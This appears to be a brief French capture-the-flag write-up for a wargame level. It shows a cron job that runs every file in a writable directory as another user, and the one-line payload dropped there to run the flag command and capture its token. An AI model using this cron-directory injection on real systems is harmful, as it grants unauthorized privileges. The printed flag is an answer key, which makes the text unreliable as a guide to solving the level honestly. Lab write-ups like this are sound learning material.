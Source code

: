 - `cat /var/mail/level05`
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- `cat /usr/sbin/openarenaserver`
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
- On peut voir que le crontab execute tout les fichier se trouvant dans /opt/openarenaser/ en tant que flag05
- Donc on crée un executable qui
- `echo "getflag > /tmp/lol" > /opt/openarenaserver/run`
- `cat /tmp/lol`
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
